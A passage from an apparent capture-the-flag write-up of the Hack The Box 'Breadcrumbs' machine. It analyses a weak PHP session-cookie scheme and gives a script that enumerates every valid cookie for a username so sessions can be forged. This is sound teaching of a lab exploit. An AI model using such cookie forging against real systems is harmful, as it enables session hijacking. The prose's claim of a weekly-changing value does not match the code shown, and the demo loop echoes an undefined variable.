 ```php
	$session_cookie = $username.md5($key);

	return $session_cookie;
}

?>
```

So essentially, every time a user logs in, a session ID is created by hashing three bits of information:

- A static string: `s4lTy_stR1nG_`
- One of the characters from the user's username
- And, to combat the infinite duration issue: a value that changes once a week

This means that within a week, a user has a number of possible cookies equal to the number of characters in their username and that session ID will be good for the duration of that week, until the third bit of info is changed. This is not _nearly_ enough. Ideally, a user would get a new, random session ID each time they log in. Then, every time they log out, that session is no longer valid.

I added the following bit of code to the above file to generate a number of keys with my username: `valoe` as an example:

```php
# Generate 10 "random" cookies:
for ($val = 0; $val < 10; $val++) {
	$item_num = strval($val + 1);
	$cookie = strval(makesession("valoe"));
	echo "{$iter_num}: {$cookie}\n";
}
```

When you run a secure algorithm ten times, you would expect ten different results. Instead, when I run this code, I get a bunch of repeats because of the limited randomness of using one of five characters as a seed. If I ran this a hundred times, it would be even more pronounced with only five possible values.

![](https://storage.googleapis.com/val-roudebush-report-images/htb-pics/breadcrumbs/36.png)

I modified the above code to create a generic version that systemically gets _every_ possible cookie (by iterating through the characters instead of choosing a random one) for a given username. This code is also available in the `HTB-scripts` directory of my Git repository.

```php
<?php
/*
Written by Val "Valerie" Roudebush, 10 October 2022
I wrote this to generate session cookies for HTB-Breadcrumbs.
It takes the poorly-coded randomness of the original and generates all the possible cookies for a given username.
*/

/* Code Cleaned from Burpsuite LFI */
function makesession($username){
        $max = strlen($username) - 1;
        $seed = rand(0, $max);
        $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
        $session_cookie = $username.md5($key);
        return $session_cookie;
}

/* De-Randomized Code */
function bake($username){
        $max = strlen($username);
        for ($val = 0; $val < $max; $val++) {
                $key = "s4lTy_stR1nG_".$username[$val]."(!528./9890";
                $cookie = $username.md5($key);
```